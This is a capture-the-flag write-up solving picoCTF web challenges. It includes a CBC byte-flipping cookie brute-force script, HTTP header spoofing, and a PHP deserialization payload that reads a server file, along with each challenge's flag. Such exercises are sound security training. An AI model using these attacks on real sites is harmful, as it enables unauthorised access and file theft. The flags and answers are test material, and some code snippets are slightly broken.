


# Category: Web Exploitation

## Insp3ct0r

Points: 50

The purpose of this challenge is to teach us to use the "Inspect Page Source" or "Inspect Element" tool. The flag is broken into three parts: the main page, the CSS page, and the JS page.

Flag: picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?2e7b23e3}

## Scavenger Hunt

Points: 50

This problem is framed similar to the Insp3ct0r challenge. The flag is divided into multiple parts, which we find in:

1. The main page
2. The CSS page
3. The Javascript page (which contains a hint)
4. robots.txt - this file tells search engine crawler which pages it can access on our website
5. .htaccess - along with .htpasswd, these files are used for managing user access for an Apache server
6. .DS_Store - short for Desktop Services Store, this an invisible file on the macOS operating system that gets automatically created anytime you look into a folder with ‘Finder.’ 

Despite the hint telling us not to, we could have used a directory searcher to automate the process of uncovering hidden files on the website. Specifically, I used `dirsearch` (link: https://github.com/maurosoria/dirsearch), and got the following result:

~~~console
Target: http://mercury.picoctf.net:39698/

[00:14:07] Starting: 
[00:14:09] 200 -   62B  - /.DS_Store
[00:14:10] 200 -   95B  - /.htaccess
[00:14:10] 200 -   95B  - /.htaccess/
[00:14:47] 200 -  961B  - /index.html
[00:15:00] 200 -  124B  - /robots.txt

Task Completed
~~~

Flag: picoCTF{th4ts_4_l0t_0f_pl4c3s_2_lO0k_fa04427c}

## Some Assembly Required 1

Points: 70

Visiting the website, we see a simple input text box, which, on submission, triggers the onButtonPress() function.

When we visit the Javascript file and passes it through a [deobfuscator](http://jsnice.org/), we get the following:

~~~js
'use strict';
const _0x402c = ["value", "2wfTpTR", "instantiate", "275341bEPcme", "innerHTML", "1195047NznhZg", "1qfevql", "input", "1699808QuoWhA", "Correct!", "check_flag", "Incorrect!", "./JIFxzHyW8W", "23SMpAuA", "802698XOMSrr", "charCodeAt", "474547vVoGDO", "getElementById", "instance", "copy_char", "43591XxcWUl", "504454llVtzW", "arrayBuffer", "2NIQmVj", "result"];
const _0x4e0e = function(url, whensCollection) {
  /** @type {number} */
  url = url - 470;
  let _0x402c6f = _0x402c[url];
  return _0x402c6f;
};
(function(data, oldPassword) {
  const toMonths = _0x4e0e;
  for (; !![];) {
    try {
      const userPsd = -parseInt(toMonths(491)) + parseInt(toMonths(493)) + -parseInt(toMonths(475)) * -parseInt(toMonths(473)) + -parseInt(toMonths(482)) * -parseInt(toMonths(483)) + -parseInt(toMonths(478)) * parseInt(toMonths(480)) + parseInt(toMonths(472)) * parseInt(toMonths(490)) + -parseInt(toMonths(485));
      if (userPsd === oldPassword) {
        break;
      } else {
        data["push"](data["shift"]());
      }
    } catch (_0x41d31a) {
      data["push"](data["shift"]());
    }
  }
})(_0x402c, 627907);
let exports;
(async() => {
  const findMiddlePosition = _0x4e0e;
  let leftBranch = await fetch(findMiddlePosition(489));
  let rightBranch = await WebAssembly[findMiddlePosition(479)](await leftBranch[findMiddlePosition(474)]());
  let module = rightBranch[findMiddlePosition(470)];
  exports = module["exports"];
})();
/**
 * @return {undefined}
 */
function onButtonPress() {
  const navigatePop = _0x4e0e;
  let params = document["getElementById"](navigatePop(484))[navigatePop(477)];
  for (let i = 0; i < params["length"]; i++) {
    exports[navigatePop(471)](params[navigatePop(492)](i), i);
  }
  exports["copy_char"](0, params["length"]);
  if (exports[navigatePop(487)]() == 1) {
    document[navigatePop(494)](navigatePop(476))[navigatePop(481)] = navigatePop(486);
  } else {
    document[navigatePop(494)](navigatePop(476))[navigatePop(481)] = navigatePop(488);
  }
}
;
~~~

We want to focus on the exports and `onButtonPress` function. At the moment, it is difficult to understand the code without understanding the logic of findMiddlePosition() and navigatePop().

Using the developer console, we can easily retrieve it by first defining the constant as in the Javascript file and then trying out some of the function calls ourselves:

~~~js
>> const navigatePop = _0x4e0e;
undefined
>> navigatePop(484)
"input"
>> navigatePop(471)
"copy_char"
>> navigatePop(492)
"charCodeAt"
~~~

We can see that `navigatePop` has the responsibilty of retrieving specific text stored on the website. By replicating the same steps for `findMiddlePosition`, we also find it performs a similar operation as well.

By subsituting out the function calls with the corresponding text, we get:

~~~js
let exports;
(async() => {
  const findMiddlePosition = _0x4e0e;
  let leftBranch = await fetch("./JIFxzHyW8W");
  let rightBranch = await WebAssembly["instantiate"](await leftBranch["arrayBuffer"]());
  let module = rightBranch["instance"];
  exports = module["exports"];
})();
/**
 * @return {undefined}
 */
function onButtonPress() {
  const navigatePop = _0x4e0e;
  let params = document["getElementById"]("input")["value"];
  for (let i = 0; i < params["length"]; i++) {
    exports["copy_char"](params["charCodeAt"](i), i);
  }
  exports["copy_char"](0, params["length"]);
  if (exports["check_flag"]() == 1) {
    document["getElementById"]("result")["innerHTML"] = "Correct!";
  } else {
    document["getElementById"]("result")["innerHTML"] = 
    "Incorrect");
  }
}
;
~~~

Within onButtonPress we can see the the script is taking each character of the input string induvidually and sending it to a function called "copy_char". After which, it calls check_flag to compare if the flag and submitted string is the same. 

Based on the exports statement, we can assume that "copy_char" is sending the characters of the input string to a WebAssembly script at "/JIFxzHyW8W".

We can down the WebAssembly script using `wget`:

~~~console
$ wget http://mercury.picoctf.net:36152/JIFxzHyW8W -O script.wasm

$ file script.wasm 
script.wasm: WebAssembly (wasm) binary module version 0x1 (MVP)
~~~

For reference, WebAssembly or Wasm for short is a compact binary instruction format that can be run on modern web browsers. It has a low-level assembly-like language and is used as a portable compilation target for programming languages like C/C++, C$, and Rust. WebAssembly is designed to complement and run alongside Javascript. For information, check out the link [here](https://developer.mozilla.org/en-US/docs/WebAssembly).

To allow WebAssembly to be read and edited by a human, there is a textual representation of the wasm binary format, which stores files with the extension .wat

For us to convert wasm files into wat, we need the `wasm2wat` tool, which is a part of the WABT library. [Link](https://github.com/webassembly/wabt)


We can install the package on Ubuntu using:

`sudo apt-get install wabt`

and then convert the wasm file into .wat by doing:

```console
$ wasm2wat --generate-names script.wasm > script.wat
```

Now if we scroll all the way to the bottom we can find the flag in cleartext:

~~~wat
  (export "strcmp" (func $strcmp))
  (export "check_flag" (func $check_flag))
  (export "input" (global 1))
  (export "copy_char" (func $copy_char))
  (export "__dso_handle" (global 2))
  (export "__data_end" (global 3))
  (export "__global_base" (global 4))
  (export "__heap_base" (global 5))
  (export "__memory_base" (global 6))
  (export "__table_base" (global 7))
  (data $d0 (i32.const 1024) "picoCTF{d88090e679c48f3945fcaa6a7d6d70c5}\00\00"))
~~~

In the file we see three functions, namely strcmp, check_flag, and copy_char.

For context, Web Assembly can be thought of as a *stack machine*. It's basically composed of instructions which push the value to the stack and/or pop it from the stack to a different location. 

For example, a `local.get` instruction pushes a value from a local variable to the stack, a `local.set` instruction pops a value from the stack and pushes it to a local, and an instruction like `i32.sub` performs an operation on values popped from the stack and pushes the result to the stack.

Within the wabt package there is a number of tools to try to compile the code to higher languages like C (e.g., wasm2c).

However, in our case, running the conversion yield a very non-helpful result:

~~~c
static void copy_char(u32 p0, u32 p1) {
  u32 l2 = 0, l3 = 0, l4 = 0, l5 = 0, l6 = 0;
  FUNC_PROLOGUE;
  u32 i0, i1;
  i0 = g0;
  l2 = i0;
  i0 = 16u;
  l3 = i0;
  i0 = l2;
  i1 = l3;
  i0 -= i1;
  l4 = i0;
  i0 = l4;
  i1 = p0;
  i32_store((&memory), (u64)(i0 + 12), i1);
  i0 = l4;
  i1 = p1;
[...]
~~~

The best option we seem to have for this exercise is to decompile the code into pseudocode using `wasm-decompile`:

`wasm-decompile script.wasm -o script.dcmp`

The result:

~~~pseudo
export memory memory(initial: 2, max: 0);

global g_a:int = 66864;
export global input:int = 1072;
global dso_handle:int = 1024;
global data_end:int = 1328;
global global_base:int = 1024;
global heap_base:int = 66864;
global memory_base:int = 0;
global table_base:int = 1;

table T_a:funcref(min: 1, max: 1);

data d_a(offset: 1024) = 
"picoCTF{d88090e679c48f3945fcaa6a7d6d70c5}\00\00";

function wasm_call_ctors() {
}

[...]

export function check_flag():int {
  var a:int = 0;
  var b:int = 1072;
  var c:int = 1024;
  var d:int = strcmp(c, b);
  var e:int = d;
  var f:int = a;
  var g:int = e != f;
  var h:int = -1;
  var i:int = g ^ h;
  var j:int = 1;
  var k:int = i & j;
  return k;
}

function copy(a:int, b:int) {
  var c:int = g_a;
  var d:int = 16;
  var e:int_ptr = c - d;
  e[3] = a;
  e[2] = b;
  var f:int = e[3];
  var g:byte_ptr = e[2];
  g[1072] = f;
}
~~~

We see from the decompiled code that `copy` takes in two parameters, 'a' and 'b', which we know from the Javscript file is a sample character from the user input and its index in the string. The function then stores the character at offset `1072 + b`. Essentially the program is just storing the flag from offset 1072 and onward.

`check_flag` is responsible for calling strcmp between the string starting at offset 1072 (our user input) and 1024 (presumbably to be the flag). It then performs some manipulations on the result, which the writeup that I was referencing (link](https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF/Some_Assembly_Required_1.md)), says to be equivalent to `(((strcmp_res != 0) ^ (-1)) & 1)`. This seems to be a more complicated way of saying if `strcmp` returned 0 (i.e., the strings are equal) then the return value will 1, and 0 otherwise.

Flag: picoCTF{d88090e679c48f3945fcaa6a7d6d70c5}

## More Cookies

Points: 90

**Prompt:** I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! <http://mercury.picoctf.net:34962/>

*Hint 1:* <https://en.wikipedia.org/wiki/Homomorphic_encryption>

*Hint 2:* The search endpoint is only helpful for telling you if you are admin or not, you won't be able to guess the flag name

When we open the webpage, we are greeted with the message: "Welcome to my cookie search page. Only the admin can use it!". Using a Cookie Manager on Firefox, we are able to see that the website has one cookie named `auth_name` with the value:

`V2FObFBadFplai9hT0JXWWpndU1ETlNUczZ6M1lqNDdNbHRrc1M4N1ppS2ZxMFZHTEdncjV4ckc1U2Z5OUp0TTF1Rks4dlJPbVFNMEZ4NDYyZnkvNnozaHp6MDNLTTBiR0paZ01CRHIzNGZEb3E4cnhqcXVndDJReFVWdyswZGY=`

Decoding from base64, we get the encrypted text:

`WaNlPZtZej/aOBWYjguMDNSTs6z3Yj47MltksS87ZiKfq0VGLGgr5xrG5Sfy9JtM1uFK8vROmQM0Fx462fy/6z3hzz03KM0bGJZgMBDr34fDoq8rxjqugt2QxUVw+0df`

From the hint, we know won't be able to decrypt the cookie to get the flag. Paying closer attention to the prompt, we notice that the capitalized letters spells out "CBC", which points to the encryption being Cipher Block Chaining method. If the cookie is used for authorizing admin access, we can assume that there must some text like `auth=0` in the cookie that the server is checking for. For CBC encryption, there is the CBC byte-flipping attack which we can use to change one value in the cookie. For a more detailed reading see [here](https://resources.infosecinstitute.com/topic/cbc-byte-flipping-attack-101-approach/).

The encryption and decryption method using CBC mode is as follows:


CBC works on a fixed-group group of bits called a block (for example, AES-CBC uses 128 bit blocks). At the start, a block of plaintext is XOR with the Intialization Vector (IV). Their result is fed into the block cipher encryption algorithm, along with a key if the algorithm is symmetric (e.g., if we are using DES, Blowfish, AES, etc.) The IV key is used to randomize the encryption so that we will get different results even if the same starting plaintext is used across multiple messages. Afterwards, the ciphertext of the first block will be used to XOR with next block of bytes, which will then be fed into the encryption algorithm to get the next block of ciphertext. The process repeats until all blocks have been encrypted.



To decrypt, the reverse is done. We first feed the first block's ciphertext into the algorithm with the key (if symmetric) to decrypt, and then we XOR the result with the IV. Since `A ^ B ^ B = A ^ 0 = A` for any given A and B, we would get back our original text. The first block ciphertext is also used to XOR with the result of the decryption algorithm on the second block to yield the original second block text. This process is repeated until all blocks have been decrypted.

Now we turn our attention into the byte-flipping method:



The way the CBC Byte-Flipping attack works is that by altering one byte of a given ciphertext block, we would end up with likely a garbled plaintext for that block, but we would also be affect the result of the next block (due to the XOR operation). In theory, this allows us to have control over one byte of the plaintext result for the next block over.

For example, let's say we have the following trivial example:

We are given the ciphertext that has been encrypted with a symmetric encryption algorithm using CBC (Cipher Block Chaining) mode. We know that in the second block there is some encrypted text, say, "var1:6" that we want to change to be "var1:7". If we want for the 6th character to be decrypted as the number '7' rather than '6', what we would do is change the 6th encrypted character in the **FIRST** block, call it `x`, to be:

`chr(ord(x) ^ ord("6") ^ ord("7"))`

This is because once the second block passes through the decryption algorithm, that result (which should be equal to '6' ^ x) gets XOR'ed with our modified plaintext, yielding:

`('6' ^ x) ^ (x ^ '6' ^ '7')`

`= '6' ^ '6' ^ 'x' ^ 'x' ^ '7' `

`= 0 ^ 0 ^ '7' = '7'`

Thus we were able to modify the decrypted plaintext of the second block by changing the ciphertext of the first block.

Even with the referenced code from previous writeups, the solution still took me a couple of hours between putting the code together, debug, and performing trial-runs. The problem was that the challenge has been revised multiple times by PicoCTF, though I didn't realize that so until much later in the troubleshooting steps.

You can find the full exploit script in `More_Cookies.py`. The main part is the `flipByte` function, which took in a `pos` index (the target index), a integer `val` (the value to XOR with), and `cookie` representing the cookie value in raw bytes:

~~~py
def flipByte(pos,val,cookie):
    new_val = cookie[pos] ^ val
    new_cookie = cookie.copy()
    new_cookie[pos] = new_val
    output = b64encode(b64encode(bytes(new_cookie)))
    return output.decode()
~~~

I then ran a simulation to iterate across the length of the cookie value and try XOR'ing with values between 0-125:

~~~py
def run_simulation():
    for pos in range(96):
        for val in range(1,128):
            print("Trying position", pos, "bit=",val)
            res = flipByte(pos,val,raw_cookie)
            custom_cookies = {'auth_name': res}
            r = requests.get('http://mercury.picoctf.net:34962/',cookies=custom_cookies)
            if val == 0:
                with open("temp_result.txt","w") as f:
                    f.write(r.text)
                    continue
            if "alert-success" in r.text or "Welcome to my cookie search page. Only the admin can use it!" not in r.text:
                print(r.text)
                return

run_simulation()
~~~

My stop condition was when either when we get an alert-success letting us know something was submitted correctly or us seeing main page message changing. The true stop condition turned out to be the latter.

There were a number of things that I learned while writing / troubleshotting this script:

1. Weirdly enough, the cookie was actually twice encoded with base64. You know that you've gotten down to the correct encrypted formatting if you see a lot of weird character and/or blank spaces.

2. Due to the way that the PicoCTF sets up the challenge webpage, there are multiple cookies which can be in effect any time (I honestly should have realized this one myself). I panicked a little when I was using Sessions.get() and saw that my `auth_name` value kept changing, as I was worried that the cookie value was only effective within each session.

3. Despite there being a hint about web page having a `search` endpoint and not showing the flag directly, PicoCTF seemed to have removed this feature and instead displayed the flag right on the webpage whenever we trigger a sucessful cookie byte-flip.

The successful byte-flip was at position 9, with us XOR'ing the cookie value with the integer '1'.

Flag: picoCTF{cO0ki3s_yum_e40d16a9}


## Where are the robots

Points: 90

It's actually funny how greatly the difficulty ranges from problem to problem, even between those valuing at the same amount of points. The main webpage, it talks about finding the robots, which we can assume to be the `robots.txt`. Navigating to <https://jupiter.challenges.picoctf.org/problem/56830/robots.txt>, we find a "Disallow" entry for `1bb4c.html`. Navigating there, we get the flag.

Flag: picoCTF{ca1cu1at1ng_Mach1n3s_1bb4c}

## Logon

Points: 100

We were given a website with a username and password field. Entering any username besides `Joe` will result in a sucessful logon. Taking a look at the site cookies we can see that there is a cookie named `admin`. Setting that to `True` and refresh the page we'll get the flag.

Flag: picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}

## Who are you?

Points: 100

This challenge teaches us about HTTP headers. When first accessing the webpage on the browser we get back the message: 

`Only people who use the official PicoBrowser are allowed on this site!`

For us to appear as though we are using a non-existent browser we can see the `User-Agent` header when we `wget` the page:

`$ wget --user-agent="PicoBrowser" http://mercury.picoctf.net:46199/`

Following that, we would get back a new requirement with each header addition, including:

* I don&#39;t trust users visiting from another site.
* Sorry, this site only worked in 2018
* I don&#39;t trust users who can be tracked
* This website is only for people from Sweden. (This was a particularly difficult one that uses the [X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) header with an IP originating in Sweden)
* You&#39;re in Sweden but you don&#39;t speak Swedish?

Putting it all together, we were able to get the flag by doing:

~~~console
$ wget --header="User-Agent: PicoBrowser" --header="Referer: http://mercury.picoctf.net:46199" --header="Date: Wed, 15 Aug 2018 09:04:50 GMT" --header="DNT: 1" http:/ --header="X-Forwarded-For: 2.68.184.18" --header="Accept-Language: sv-SE" http://mercury.picoctf.net:46199/ -qO- | grep "picoCTF"
			<b>picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_8d5d8d77}</b>
~~~

Flag: picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_8d5d8d77}

## Dont-use-client-side

Points: 100

We were given an authentication portal which had the password check Javascript code in the client side source code.

Flag: picoCTF{no_clients_plz_b706c5}

## It is my Birthday

Points: 100

The provided website asks us to provide two pdf files, at which point it will check if they are i) distinct and ii) have the same MD5 hash. The title of the problem refers to the `Birthday Paradox`, which is also applicable to weaker hash algorithms like MD5 and SHA-1 about the likelihood of a collision.

Initially I tried submitting two duplicates images with the .pdf extension appended to them and different file names, but the website is able to distinguish that they are indeed the exact same. Given that this is a Web Exploitation problem, we can assume that one of the weakness is that it is checking whether a file is .pdf likely by just its file extension (in this case our assumption *is* correct).

There is also a nifty Github repo called [collisions](https://github.com/corkami/collisions) which has many built-in examples of PNGs and PDFs files with the same MD5 or SHA-1 hash along with scripts to generate our own examples. The provided PicoCTF website also had a limit on the size of the submitted PDFs (I triggered the size warning with less than 300 KB) so I had to select two very small examples. 

Upon successful submission we are given the PHP code and also the flag:

~~~php
<?php

if (isset($_POST["submit"])) {
    $type1 = $_FILES["file1"]["type"];
    $type2 = $_FILES["file2"]["type"];
    $size1 = $_FILES["file1"]["size"];
    $size2 = $_FILES["file2"]["size"];
    $SIZE_LIMIT = 18 * 1024;

    if (($size1 < $SIZE_LIMIT) && ($size2 < $SIZE_LIMIT)) {
        if (($type1 == "application/pdf") && ($type2 == "application/pdf")) {
            $contents1 = file_get_contents($_FILES["file1"]["tmp_name"]);
            $contents2 = file_get_contents($_FILES["file2"]["tmp_name"]);

            if ($contents1 != $contents2) {
                if (md5_file($_FILES["file1"]["tmp_name"]) == md5_file($_FILES["file2"]["tmp_name"])) {
                    highlight_file("index.php");
                    die();
                } else {
                    echo "MD5 hashes do not match!";
                    die();
                }
            } else {
                echo "Files are not different!";
                die();
            }
        } else {
            echo "Not a PDF!";
            die();
        }
    } else {
        echo "File too large!";
        die();
    }
}

// FLAG: picoCTF{c0ngr4ts_u_r_1nv1t3d_aad886b9}
~~~

Flag: picoCTF{c0ngr4ts_u_r_1nv1t3d_aad886b9}

## login

Points: 100

Taking a look at the provided authentication website, we see that it sends the username and password info to `index.js`. Using a Javascript deobfuscator, we get the following:

~~~js
'use strict';
(async() => {
  await new Promise((e) => {
    return window.addEventListener("load", e);
  });
  document.querySelector("form").addEventListener("submit", (event) => {
    event.preventDefault();
    const ids = {
      u : "input[name=username]",
      p : "input[name=password]"
    };
    const params = {};
    for (const i in ids) {
      /** @type {string} */
      params[i] = btoa(document.querySelector(ids[i]).value).replace(/=/g, "");
    }
    return "YWRtaW4" !== params.u ? alert("Incorrect Username") : "cGljb0NURns1M3J2M3JfNTNydjNyXzUzcnYzcl81M3J2M3JfNTNydjNyfQ" !== params.p ? alert("Incorrect Password") : void alert(`Correct Password! Your flag is ${atob(params.p)}.`);
  });
})();
~~~

We can see that the program is simply checking if the base64-encoded `username` and `password` matches up to what it expects. Decoding the parameters we see that username is `admin` and password is `picoCTF{53rv3r_53rv3r_53rv3r_53rv3r_53rv3r}`

Flag: picoCTF{53rv3r_53rv3r_53rv3r_53rv3r_53rv3r}


## Super Serial

Points: 130

This challenge was quite a bit of a jump for me since I'm not very familiar with PHP code. When we first navigate to the page we are given the classic authentication portal. There's nothing of interest when we inspect the `index.php` source code, though when we take a look at the `robots.txt` we see

~~~html
User-agent: *
Disallow: /admin.phps
~~~

Note the use of the `.phps` extension rather than `.php`. According to this StackOverflow [post](https://stackoverflow.com/questions/41689479/what-is-the-file-extension-phps-and-what-is-it-used-for), PHPS file type is primarily associated with the `PHP source code`, since generally PHP files will be directly interpreted by the web server and only the output is displayed. On the other hand, if you provide a PHPS file it will be rendered as a color-formatted display.

While `admin.phps` doesn't show anything, if we inspect `index.phps` we see the following PHP code block:

~~~php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
~~~

We can see that the web server uses the `is_guest()` and `is_admin()` function from `cookie.php` to check if the username and password combination is correct. In return, it will set the `login` cookie to be the b64-encoded serialization of the `permissions` object contain the auth values. There is also a redirection to `authentication.php`

In `cookie.phps` we see the following after doing some nice-formatting:

~~~php
username = $u; 
$this->password = $p; 
} 
function __toString() { 
  return $u.$p; 
} 

function is_guest() { 
  $guest = false; $con = new SQLite3("../users.db"); 
  $username = $this->username; 
  $password = $this->password; 
  $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?"); 
  $stm->bindValue(1, $username, SQLITE3_TEXT); 
  $stm->bindValue(2, $password, SQLITE3_TEXT); 
  $res = $stm->execute(); 
  $rest = $res->fetchArray(); 
  if($rest["username"]) { 
    if ($rest["admin"] != 1) { 
      $guest = true; 
      } 
    } return $guest; 
  } 
    
  function is_admin() { 
    $admin = false; 
    $con = new SQLite3("../users.db"); 
    $username = $this->username; 
    $password = $this->password; 
    $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?"); 
    $stm->bindValue(1, $username, SQLITE3_TEXT); 
    $stm->bindValue(2, $password, SQLITE3_TEXT); 
    $res = $stm->execute(); 
    $rest = $res->fetchArray(); 
    if($rest["username"]) { if ($rest["admin"] == 1) { $admin = true; } } return $admin; } } 
    if(isset($_COOKIE["login"])){ 
      try{ 
        $perm = unserialize(base64_decode(urldecode($_COOKIE["login"]))); 
        $g = $perm->is_guest(); 
        $a = $perm->is_admin(); 
      } catch(Error $e){ 
        die("Deserialization error. ".$perm); 
      } 
    } 
?> 
~~~

An interesting set of behavior occur in `is_admin()`, where if the `login` cookie is set the server will attempt to url-decode -> b64-decode, and deserialize the value to a PHP object. Normally, the `login` cookie would be set to be a "permissions" PHP object by the `index.php`, but this behavior also introduces a security issue since as users we can inject our own serialized PHP object into the code.

We notice that upon an error, either from a failed deserialization or not being able to access `$perm->is_guest();` the website would print out the object. In PHP, printing an object triggers its `__toString()` function (if it has a custom declaration for one).  Lucky for us when we navigate to `authentication.phps` we see the `access_log` class which prints out its `$log_file` variable:

~~~php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
[...]
~~~

Thus, to exploit the website, all we need to do is find the serialization of an `access_log` object with its `$log_file` set to `..\flag` (given location of the flag by the hint), base64 encode it, and set that as the value of the `login` cookie. 

In a PHP editor like the [following](https://paiza.io/projects/pLvbrTk9o0tn1kfGR4AG5Q), I was able to copy over the definition of the `access_log` class and then printed out its serialization using:

~~~php
$bar = new access_log("../flag");
$ser = serialize($bar);
print_r($ser);
~~~

which gave the result:

`O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`

or

`TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`

after base64 encoding. Setting that as the value of `login` cookie, I refreshed the page and navigated to `authentication.php` where I was able to get the error printout:

`Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}`

Oof this was a lengthy web challenge.

Flag: picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}